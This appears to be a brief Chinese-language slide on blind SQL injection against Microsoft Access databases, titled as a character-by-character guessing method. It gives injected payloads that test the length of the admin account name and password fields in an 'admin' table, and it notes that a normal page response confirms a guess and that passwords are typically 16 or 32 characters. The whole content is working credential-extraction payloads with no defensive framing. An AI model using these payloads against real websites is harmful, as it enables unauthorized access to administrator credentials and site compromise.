

# Access逐字猜解法
判断账户密码的长度
and (select len(admin) from admin)=5  如果返回正常说明管理员账户的长度为5
and (select len(password) from admin)=5  猜解管理密码长度是否为5 一般密码长度为16位、32位(acess数据库)